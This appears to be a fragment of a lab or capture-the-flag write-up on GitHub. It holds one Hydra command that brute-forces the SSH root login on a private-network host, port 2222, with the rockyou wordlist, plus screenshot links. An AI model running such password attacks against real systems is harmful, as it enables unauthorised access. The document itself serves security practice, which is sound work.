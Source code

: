 ```
hydra -l root -P /usr/share/wordlists/rockyou.txt -s 2222 192.168.229.134 ssh  
```
<img width="1208" height="653" alt="image" src="https://github.com/user-attachments/assets/07281223-1daf-4691-99d8-06538e8b32e8" />



